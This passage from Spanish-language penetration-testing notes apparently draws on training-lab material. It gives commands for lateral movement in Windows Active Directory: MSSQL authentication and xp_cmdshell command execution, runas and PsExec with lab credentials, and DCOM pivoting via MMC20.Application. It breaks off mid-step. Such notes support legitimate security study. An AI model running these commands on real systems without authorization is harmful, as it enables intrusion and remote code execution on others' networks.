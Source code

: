     Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\\damundsen" -password "SQL1234!" -query 'Select @@version'
    ```
- Autenticando sobre una instancia MSSQL - Linux
    ```bash
    #Con credenciales Windows
    mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth 
    #Con credenciales mssql
    mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60
    ```
- Una vez autenticados
	- Seleccionando  **enable_xp_cmdshell**
	    ```bash
	    SQL> enable_xp_cmdshell
	    ```

	- Ejecutando comandos a nivel de sistema
	    ```bash
	    xp_cmdshell whoami /priv
	    ```

## Obtener PS como otro usuario - Windows
### Runas
Runas no funciona sin una GUI (no funcionaría en una revshell ó WinRM). No se consideraría del todo movimiento lateral, ya que no nos permite conectarnos en equipos distintos al que estamos
- Ejecución de runas como `OTRO_USUARIO`
	```powershell
	runas /user:OTRO_USUARIO powershell
	```
	`runas` **NO eleva permisos automáticamente**, solo cambia de usuario.Para obtener permisos completos, debes **elevar la sesión con `-Verb runAs`**. Deberíamos escribir lo siguiente para obtener permisos completos (si los tiene `OTRO_USUARIO`)
	```powershell
	Start-Process powershell -Verb runAs
	```
	lo que nos dará acceso completo 
- Ejecucin de runas directamente con permisos elevados
	```powershell
	runas /user:OTRO_USUARIO "cmd /c start powershell -Verb runAs"
	```

### psexec
- Ejecutar ps como otro usuario. Se necesitan permisos de administrador local en el equipo al que queremos conectarnos, y además debe estar disponible el recurso  `ADMIN$`
	```powershell
	.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
	```

## DCOM
DCOM (**Distributed Component Object Model**) es una tecnología de Microsoft que permite la comunicación entre objetos COM en diferentes equipos a través de una red. Se usa en entornos de **Windows y Active Directory (AD)** para que aplicaciones interactúen de forma remota.
Básicamente, permite ejecutar **métodos remotos en otro equipo** sin necesidad de autenticación interactiva, siempre que el usuario tenga los permisos adecuados.
Está por defecto activado en los sistemas Windows. 
- Desde una powershell con privilegios elevados, creamos una instancia MMC (Microsoft Management Console), pasándole como segundo argumento la máquina a la que queremos pivotar
	```powershell
	$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
	```
- Con esta instancia podemos ejecutar comandos de forma remota del siguiente modo 